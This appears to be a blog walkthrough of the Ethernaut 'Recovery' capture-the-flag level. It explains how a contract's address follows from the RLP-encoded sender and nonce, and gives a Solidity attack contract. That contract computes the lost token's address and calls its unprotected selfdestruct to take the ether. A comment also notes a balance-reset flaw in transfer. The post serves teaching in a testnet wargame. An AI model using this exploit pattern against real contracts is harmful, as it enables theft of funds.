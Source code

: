 ```yaml
---
title: "Ethernaut - Walkthrough for Noobs - 17 - Recovery"
datePublished: Wed Apr 05 2023 05:12:37 GMT+0000 (Coordinated Universal Time)
cuid: clg38g9ai000a0ak287626hzv
slug: ethernaut-walkthrough-for-noobs-17-recovery
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1680617158315/c7dc4b78-cc96-4e4f-b5da-e446b25eacb1.jpeg
tags: ethereum, solidity, web3, 2articles1week, ethernaut

---
```


This is a relatively easy challenge, introducing the concepts of a token factory and RLP encoding. The whole idea of this challenge is that we have created a token contract using the token factory and deployed some Eth to it, the address of this new contract is lost. We must find this lost address to recover our tokens.

> A contract creator has built a very simple token factory contract. Anyone can create new tokens with ease. After deploying the first token contract, the creator sent `0.001` ether to obtain more tokens. They have since lost the contract address.
> 
> This level will be completed if you can recover (or remove) the `0.001` ether from the lost contract address.

### Background

Let's first look at the more obvious way to solve, this challenge. Honestly, this was what struck me first. You must know about [goerli.etherscan.io](http://goerli.etherscan.io), it is an Ethereum blockchain explorer, we can investigate any contract being deployed/any transaction being made here. So, we can check for the contract being deployed by our token factory here with no issues and get the contract address. We will not discuss this solution, as this will probably teach you nothing. You can try this yourself.

Another way to solve the challenge would be to calculate the contract address manually. To do that let's first understand what is a contract factory.

A **contract factory** is a smart contract that produces other smart contracts which adhere to certain arbitrary qualities that we define. The Ethernaut CTF we are playing is one such example of it, when we create a new level instance, we are creating a brand new contract from a contract factory.

To create a new instance of Contract Factory, we use the keyword `new`. In ethers.js here is how you use it.

```solidity
new ethers.ContractFactory( interface , bytecode [ , signer ] ) //totally irrelevant to the solving ethernaut. 
```

This `new` keyword uses the `CREATE` opcode, and according to the [Ethereum Yellow Paper](https://ethereum.github.io/yellowpaper/paper.pdf), here is how you find the address of the new contract.

> "The address of the new account is defined as being the rightmost 160 bits of the Keccak-256 hash of the RLP encoding of the structure containing only the sender and the account nonce."

So, what does this mean? Let's break this down one by one.

[**Keccak-256**](https://keccak.team/keccak_specs_summary.html): Part of the SHA-3 family, computes a hash of input to 32-byte output.

[RLP](https://ethereum.org/en/developers/docs/data-structures-and-encoding/rlp/): Stands for Recursive Length Prefix. It standardizes the transfer of data between nodes and its sole purpose is to encode data. RLP for 20 byte address would be `0xd6, 0x94`. RLP encoding for nonce 1 will be `0x01`[Read more](https://ethereum.stackexchange.com/questions/760/how-is-the-address-of-an-ethereum-contract-computed).

**nonce:** It is the number of transactions of the sender's address. Also, each transaction is ordered i.e. We have nonce is 1 for the first transaction and nonce is 10 for the 10th outgoing transaction.

Now, all of this culminates to the following code:

```solidity
address = rightmost_20_bytes(keccak(RLP(sender address, nonce)))

//the above translates to this. 

address lostaddress = address(uint160(uint256(keccak256(abi.encodePacked(bytes1(0xd6), bytes1(0x94), address(<ContractFactory_Address>), bytes1(0x01))))));
```

### Code of Importance

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Recovery { //this is the contract factory

  //generate tokens
  function generateToken(string memory _name, uint256 _initialSupply) public {
    new SimpleToken(_name, msg.sender, _initialSupply); //generates another contract, and takes the aforementioned input parameters.  
  
  }
}

contract SimpleToken {
//public variables
  string public name; 
  mapping (address => uint) public balances;

  // constructor
  constructor(string memory _name, address _creator, uint256 _initialSupply) {
    name = _name; //initialises name
    balances[_creator] = _initialSupply; //initialises balance of creator. 
  }

  // collect ether in return for tokens
  receive() external payable {
    balances[msg.sender] = msg.value * 10;
  }

  // allow transfers of tokens
  function transfer(address _to, uint _amount) public { 
    require(balances[msg.sender] >= _amount);
    balances[msg.sender] = balances[msg.sender] - _amount; //subtracts to amount transferred.
    balances[_to] = _amount; //this is a problem, though not relevant to us solving the challenge, but any attacker could call the transfer function, put the victim's address in _to and _amount as 0, this will reset the balance of victim's contract to zero. 
  }

  // clean up after ourselves
  function destroy(address payable _to) public { 
    selfdestruct(_to); //as seen in a previous challenge with the cat, this will destroy the contract and send the remianing ether to the _to Address. 
  }
}
```

### Solution

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./simpleToken.sol"; //create a .sol in remix and copy the ethernaut code. 

contract Attack { //create attack contract. 
    address payable lostaddress; //will store, the address of lost constract.

    SimpleToken lostcontract; //lost contract. 

    function attack(address payable _leveladdress) public {

       lostaddress = payable(address(uint160(uint256(keccak256(abi.encodePacked(bytes1(0xd6), bytes1(0x94), payable(address(_leveladdress)), bytes1(0x01))))))); //calculates lost address
        
        lostcontract = SimpleToken(lostaddress); //assigns the lost address to lost contract. 
        lostcontract.destroy(payable(msg.sender)); //destroys it and sends the ether to us i.e. msg.sender. 
    }
}
```

You can check for it in Goerli Ether Scan and submit the instance.

`_leveladdress` == The instance address.

Recovery 🐺.